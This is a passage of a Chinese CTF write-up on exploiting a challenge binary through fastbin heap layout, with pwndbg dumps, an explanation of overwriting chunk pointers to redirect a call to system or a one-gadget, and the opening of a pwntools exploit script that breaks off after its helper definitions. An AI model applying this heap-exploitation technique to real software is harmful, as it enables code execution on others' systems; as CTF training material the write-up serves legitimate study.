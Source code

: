 堆布局 目的是分配并写入自动生成的chunk：

add(0x555555757000，0x10)	add(0x555555757020，0x30)

add(0x555555757060，0x10)	add(0x555555757080，0x10)

```
pwndbg> bi
fastbins
0x20: 0x555555757060 —▸ 0x555555757080 —▸ 0x555555757000 ◂— 0x0
0x30: 0x0
0x40: 0x555555757020 ◂— 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
```

这时，因为在add时 会先申请0x10的chunk

```
pwndbg> bi
fastbins
0x20: 0x555555757080 —▸ 0x555555757000 ◂— 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
```

如果再次申请0x10 chunk就可以改写`0x555555757000`的 fd 和 bk。当然bk的值可以是printf，puts，system，one等

回到本题，最初`0x555555757000`chunk操作的是`0x555555757020`，所以就可以通过第二次写入bk的值来对该chunk操作

需要注意：

```
(**(void (__fastcall ***)(_QWORD))(chunk_ptr[v1] + 8LL))(chunk_ptr[v1]);
```

因为是调用的指针的指针，所以需要一个指针指向该处的chunk（比赛的时候因为这个卡到最后



exp:

```python
#!/usr/bin/env python

# -*- coding: utf-8 -*-

from pwn import *
context(arch='amd64',endian='el',os='linux')
context.log_level = 'debug'
debug = 1
if debug == 1:
    p = process("./chall")
    libc = ELF("/lib/x86_64-linux-gnu/libc.so.6",checksec=False)
else:
    p = remote("10.3.120.21",9999)
    libc = ELF("./libc.so.6",checksec=False)

sa = lambda s,n : p.sendafter(s,n)
sla = lambda s,n : p.sendlineafter(s,n)
sl = lambda s : p.sendline(s)
sd = lambda s : p.send(s)
rc = lambda n : p.recv(n)
ru = lambda s : p.recvuntil(s)
ti = lambda : p.interactive()
```